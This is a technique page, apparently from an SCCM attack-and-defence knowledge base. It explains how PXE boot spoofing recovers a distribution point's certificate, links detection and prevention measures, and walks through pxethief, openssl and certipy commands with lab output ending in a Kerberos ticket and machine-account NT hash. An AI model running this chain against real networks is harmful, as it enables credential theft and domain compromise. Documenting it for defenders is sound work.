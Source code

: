 # ELEVATE-4

## Description
Distribution Point Takeover via PXE Boot Spoofing

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- Local network access
- Line of sight to PXE-enabled distribution point

## Optional Requirement
- Line of sight to a DHCP server (required if a distribution point hasn't been previously discovered)

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires it's PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. For PXE-enabled distribution points, the certificate is sent to and used by client computers to authenticate to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully spoof PXE boot deployment and extract the PKI certificate from the PXE boot variables file contents may gain control of the certificate's AD identity.

## Impact
 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system.

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description.md)

## Examples

1. On the attacker server, spoof the PXE boot process with pxethief.py with option 2 to recover the PKI certificate distributed by the targeted DP. A suitable Distribution Point can be identified using [RECON-2](../../RECON/RECON-2/recon-2_description.md). Otherwise, a PXE boot server may be discovered via a PXE DHCP discover broadcast using pxethief's option 1.

```

┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─# python3 pxethief.py 2 10.3.10.12

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Generating and downloading encrypted media variables file from MECM server located at 10.3.10.12
[+] Using interface: eth0 - eth0
[+] Targeting user-specified host: 10.3.10.12
[+] Asking ConfigMgr for location to download the media variables and BCD files...
Finished sending 1 packets
Received 1 packets, got 1 answers, remaining 0 packets

[!] Variables File Location: \SMSTemp\2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[!] BCD File Location: \SMSTemp\2025.06.04.15.34.54.04.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.bcd
[!] Blank password on PXE boot found!
[!] Attempting automatic exploitation.
[+] Media variables file to decrypt: 2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[+] Password bytes provided: 0xeaffc0ff3300b8ffbaff6d004a00daffbfffb6ff
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx. Certificate password is affba0f7-65c6-4743-99b0-99af62d

```
2. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─$ openssl pkcs12 \
-in 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx \
-passin pass:affba0f7-65c6-4743-99b0-99af62d \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            34:00:00:00:03:cd:a2:70:1a:ec:40:dc:17:00:00:00:00:00:03
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  4 19:21:29 2025 GMT
            Not After : Jun  4 19:21:29 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0-.%+.....7.........z..$...#...cb..........d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                16:40:8E:22:CF:A9:E8:21:FC:9B:2D:7C:73:90:F5:90:60:8A:89:73
            X509v3 Authority Key Identifier:
                7A:D3:15:84:7A:FD:48:F2:C0:33:D1:BE:5E:62:57:AD:2F:53:EA:C8
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-sitesrv.ludus.domain
```

3. Use certipy to authenticate on behalf of the recovered certificate's identity.


```
┌──(Certipy)─(root㉿sccm-kali)-[/home/kali/Certipy]
└─# certipy auth -pfx ../PXEThief/123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx -password affba0f7-65c6-4743-99b0-99af62d -dc-ip 10.3.10.10
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-sitesrv.ludus.domain'
[*] Using principal: 'sccm-sitesrv$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-sitesrv.ccache'
[*] Wrote credential cache to 'sccm-sitesrv.ccache'
[*] Trying to retrieve NT hash for 'sccm-sitesrv$'
[*] Got hash for 'sccm-sitesrv$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:56c99bd025fb48dea2ea4cdeee878af1
```

## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed)
- onSec-fr, [Got pfx from server with client auth](https://github.com/MWR-CyberSec/PXEThief/issues/8)
